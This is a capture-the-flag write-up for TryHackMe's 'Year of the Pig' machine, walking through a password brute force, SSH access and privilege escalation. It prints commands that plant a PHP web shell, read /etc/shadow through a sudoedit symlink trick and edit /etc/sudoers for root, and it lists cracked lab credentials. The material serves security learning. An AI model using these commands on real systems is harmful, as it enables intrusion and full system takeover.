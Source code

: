 # Year of the Pig Writeup | TryHackMe



<pre>
</pre>



- OS: _Linux_
- Difficulty: _Hard_
- Creator: [_MuirlandOracle_](https://tryhackme.com/p/MuirlandOracle)

<pre>
</pre>

Year of the Pig is rated as a hard linux machine. First step needed some custom wordlist generation and a custom script to brute force the password of the user then some basic linux privilege escalation that we are gonna get into.



## Nmap



![Image](https://i.imgur.com/KZNXFNL.png)



We can see that there are just 2 port open, those are 22 for SSH and 80 for http. And right from that nmap scan we can already see we have a possible username which is Marco. But anyways we go on to enumerate port 80 more.

## Web

On the front page we can see that Marco talks about planes a lot so we can surely say he loves them.

![Image](https://i.imgur.com/EjEg6iB.png)

Running gobuster we just get `/login.php` and `/api` that are interesting. Going to `/login.php` and trying some default credentials we get something interesting in the response.

![Image](https://i.imgur.com/psMLDc6.png)

It says `Remember that passwords should be a memorable word, followed by two numbers and a special character` , so that is hinting towards brute force of the login page, and also we need a custom wordlist. So to generate the wordlist as the login page says we need the following format:

```
{Memorable Word}{2 Numbers}{A special character} # For an example Marco99!
```

We can easily just guess the special character and the 2 numbers as the numbers go from 00 to 100, but we need a memorable word, and if we remember from earlier, Marco loves planes and talks about them a lot on the main page, so lets get some words from the page.

![Image](https://i.imgur.com/DpFS0QH.png)

Some words stand out, like the ones `Savoia`, `Macchi` and `Curtiss` so we should remember these three. Then I go on to create a python script to help me generate my custom wordlist:

![Image](https://i.imgur.com/j7ukYP8.png)

So for the input to the script we need to give it a wordlist containing just some basic words and then we give it the name to output the wordlist to.  The input wordlist I will use would look something like this:

![Image](https://i.imgur.com/iaBwpq9.png)

I named the file `input.wordlist`. Then we can run the python script with the syntax:

```
python3 generate-wordlist.py input.wordlist custom_wordlist.out
```

After running that command we get a file `custom_wordlist.out` that we can use as the wordlist to brute force the login password. But now we need to find a way to brute force the login page. We can use `BurpSuite` to see how does the web login page make a request towards the back-end. When intercepting the login request we can see the following:

![Image](https://i.imgur.com/oEdsI7o.png)

We see that it makes a POST request to /api/login with json in the data, that json contains username and the password, but that password is not a clear-text password, it is actually a md5 hash of the password we entered. So now I wrote yet another python script but this time to brute force the credentials. My script looks like this:

![Image](https://i.imgur.com/OYRfC5g.png)

The script takes 3 arguments, the first one is the IP of the machine, then it takes the wordlist to use and then it takes the username to brute force. The script is just going through each password in the wordlist and md5 hashing it then sending a POST request to /api/login with the json data. So when we run this script with the wordlist we generated earlier we get a hit:

![Image](https://i.imgur.com/UiTYbJQ.png)

After we login we see that we can run system commands, but commands seem very limited, so there is no way I could get a reverse shell from there, and later when we look at the files we see that actually there are just 5/6 certain commands we can run and that's it, so we can try SSH with the credentials we right now have which are `marco:savoia21!`.

![Image](https://i.imgur.com/bimDPAD.png)

And we successfully get into the box as user  `marco`.

## Privilege escalation

After some basic privilege escalation attempts, like `sudo -l`, finding SUID binaries with the command:

```
find / -perm -4200 -type f 2>/dev/null
```

we don't seem to find anything, but then enumerating the filesystem we find an interesting file inside /var/www which is named `admin.db` but only user `www-data` can read it, so we need to get www-data somehow. And if we remember from earlier when running the command `id` we can see that we are in the `web-developers` group, so that hints that we can probably write files inside /var/www/html, so I try just that:

```
echo '<?php system($_GET['c']); ?>' > /var/www/html/ryaagard.php && chmod 777 /var/www/html/ryaagard.php
```

After running that command we wrote a file called `ryaagard.php` inside the /var/www/html and then also ran `chmod 777` on it so any user can read the file and write to it. Then going over to `http://<MACHINE-IP>/ryaagard.php?c=id` we get code execution!

![Image](https://i.imgur.com/e6tW8dv.png)

So now we can read the `admin.db` file we found, I transfer it to my machine in the following screenshot and then open it in sqlite3:

![Image](https://i.imgur.com/ftWC7cr.png)

We can see there is a hash for curtis user, or there is 2 for some reason, anyways we take both to crackstation and 1 of those hashes gives us a clear-text password.

![Image](https://i.imgur.com/msxREM1.png)

And the new credentials we found are `curtis:Donald1983$`, with those we can run `su - curtis` on `marco` SSH session to get to `curtis` user.

As user `curtis` we run `sudo -l` and we get the following output:

![Image](https://i.imgur.com/8nnPaFG.png)

We can run `sudoedit /var/www/html/*/*/config.php` as any user on the box. But as `curtis` we can't write to /var/www/html, but `marco` can. So we run the next command as `marco`:

```
cd /var/www/html/ && mkdir -p temp/temp
```

to create the 2 directories. After that we think of what can we actually do with this sudoedit as root, and I remembered symbolic links. Basically we create a symbolic link called `config.php` inside /var/www/html/temp/temp/ and link it to /etc/shadow, and we can do that by running the following command as `marco` user:

```
ln -s /etc/shadow /var/www/html/temp/temp/config.php
```

After we ran that command we go over to user `curtis` and run:

```
sudoedit /var/www/html/temp/temp/config.php
```

And we see the contents of /etc/shadow!

![Image](https://i.imgur.com/m0ZupYe.png)

To get root user I run to following commands:

(user `marco`)

```
ln -s /etc/sudoers /var/www/html/temp/temp/config.php
```

(user `curtis`)

```
sudoedit /var/www/html/temp/temp/config.php
```

And then we add this line anywhere in the file:

```
curtis ALL=(ALL) NOPASSWD:ALL
```

and save that file.

Then we can just run `sudo bash` as user `curtis`.

![Image](https://i.imgur.com/VnMHOaw.png)

And we successfully root the machine!

<pre>
</pre>

## Contact

- Twitter: [_ryaagard_](https://twitter.com/ryaagard)
- Discord: *ryaagard#5027*

